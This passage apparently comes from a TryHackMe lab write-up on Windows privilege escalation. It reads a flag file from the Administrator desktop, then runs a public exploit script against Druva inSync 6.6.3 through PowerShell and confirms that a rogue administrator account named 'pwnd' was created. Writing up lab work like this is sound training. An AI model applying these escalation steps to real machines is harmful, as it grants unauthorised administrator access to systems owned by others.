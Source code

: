 ```Bash
C:\Windows\system32> 
```

11. `type <FILENAME` from the remote terminal to display the contents of the file that contains this task's flag onto our terminal
```PowerShell
C:\Windows\system32> type C:\Users\Administrator\Desktop\flag.txt
THM{SEFLAGPRIVILEGE}
```


**TASK COMPLETED!**

## Abusing Vulnerable Software

1. Started this task's machine, which is running Druva inSync 6.6.3, which is vulnerable to privilege escalation as reported by [Matteo Malvica](https://www.matteomalvica.com/blog/2020/05/21/lpe-path-traversal/) cause from a bad patch that was applied over another vulnerability reported initally by version 6.5.0 by [Chris Lyna](https://www.tenable.com/security/research/tra-2020-12)
2. `notepad.exe` from the compromised Windows machine to open up Notepad and copy paste [Matteo Malvica](https://www.matteomalvica.com/blog/2020/05/21/lpe-path-traversal/)'s exploit, which will allow us to elevate our privileges by creating a new user and adding it to the administrator's group
```PowerShell
C:\Users\thm-unpriv>notepad.exe
```
![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Abusing%20Vulnerable%20Software%20pt1.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Abusing%20Vulnerable%20Software%20pt2.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Abusing%20Vulnerable%20Software%20pt3.png)

3. `PowerShell.exe <EXPLOIT>` from the compromised Windows machine to run [Matteo Malvica](https://www.matteomalvica.com/blog/2020/05/21/lpe-path-traversal/)'s exploit
```PowerShell
C:\Users\thm-unpriv>PowerShell.exe C:\Users\thm-unpriv\Documents\Exploit.ps1
22
4
4
280
```

4. `net user <USER>` from the compromised Windows machine to verify that the exploit worked properly and created our user and added it to the administrator group, which it did
```PowerShell
C:\Users\thm-unpriv>net user pwnd
User name                    pwnd
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            8/4/2023 11:56:05 PM
Password expires             9/15/2023 11:56:05 PM
Password changeable          8/4/2023 11:56:05 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

```